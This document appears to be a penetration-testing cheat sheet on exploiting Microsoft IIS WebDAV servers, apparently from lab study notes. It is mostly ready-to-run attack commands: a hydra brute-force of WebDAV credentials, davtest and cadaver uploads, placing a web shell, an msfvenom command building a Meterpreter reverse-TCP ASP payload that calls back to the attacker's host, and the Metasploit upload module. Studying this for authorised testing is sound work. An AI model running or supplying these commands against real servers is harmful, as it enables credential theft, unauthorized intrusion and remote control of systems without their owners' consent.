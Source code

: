 # Exploiting Microsoft IIS Webdav

Legitimate credentials are needed for interacting with WebDav

Step 1: Identify if it has been configurated on the server. This can be completed with Nmap  
Step 2: Brute Force attack on the server to identify credentials we can use  
Step 3: Authenticate and upload malicious .asp payload  

## **Tools**  
Davtest - Scan, authenticate, and exploit WEbdav server  
Cadaver - supports download, upload, onscreen display, in place editing, etc

**Brute Force username and password**  
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt (IP address or domain) http-get /webdav/

## Davtest  
Checking what file types we can upload  
**Unauthenticated** - ```davtest -url http://(IP address)/webdav```  
**Authenticated** - ```davtest -url -auth bob:password123321 http://(IP address)/webdav```  

## Cadaver  
This will access the contents of the directory (download/upload)  
```cadaver http://(IPaddress)/webdav```  
Enter credentials  

**Uploading Webshell**  
Web shells located -- /usr/share/webshells  
```put /usr/share/webshells/(file type)/webshell.(filetype)```  

# Metasploit  
**Manual**  
Generating an asp payload  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Local IP address) LPORT=1234 -f asp > shell.asp```  
Upload shell using cadaver (previous 2 steps)   
Start postgresql services - ```services postgresql start && msfconsole```  
Use multi/handler  - ```set payload/windows/meterpreter/reverse_tcp```  

**Automated**  
Module - exploit/windows/iis/iis_webdav_upload_asp  
set path - /webdav  ```set path /webdav/metasploit.asp```  

